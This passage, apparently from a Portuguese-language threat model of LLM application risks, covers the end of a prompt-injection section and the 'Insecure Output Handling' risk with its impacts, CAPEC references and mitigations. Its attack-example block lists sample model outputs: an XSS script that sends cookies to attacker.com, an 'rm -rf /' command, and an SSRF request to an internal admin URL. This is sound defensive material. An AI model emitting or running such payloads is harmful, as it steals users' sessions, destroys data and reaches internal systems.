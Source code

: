 4. **Monitoring e Logging**
   - Auditar todos os prompts
   - Detectar padrões anômalos

### Categoria STRIDE
- **Tampering**: Manipulação de prompts
- **Elevation of Privilege**: Execução de comandos privilegiados

### OWASP Top 10
- **A03:2021 - Injection**

---

## LLM02: Insecure Output Handling

### Severidade: HIGH

### Descrição
Falha em validar e sanitizar saídas do LLM antes de processá-las ou exibi-las, permitindo:
- XSS (Cross-Site Scripting)
- CSRF (Cross-Site Request Forgery)
- SSRF (Server-Side Request Forgery)
- Execução de código no backend

### Exemplos de Ataque
```
LLM Output: "<script>fetch('attacker.com/steal?cookie='+document.cookie)</script>"
LLM Output: "Execute: rm -rf / && echo 'pwned'"
LLM Output: "Fetch data from: http://internal-server/admin"
```

### Impacto
- XSS no frontend
- RCE (Remote Code Execution) no backend
- SSRF para acessar recursos internos
- Data exfiltration

### CAPECs Relacionados
- **CAPEC-63**: Cross-Site Scripting
- **CAPEC-664**: Server-Side Request Forgery
- **CAPEC-88**: OS Command Injection

### Mitigações
1. **Output Encoding**
   - HTML encoding para web
   - JSON encoding para APIs
   - Shell escaping para comandos

2. **Content Security Policy (CSP)**
   - Bloquear inline scripts
   - Whitelist de domínios
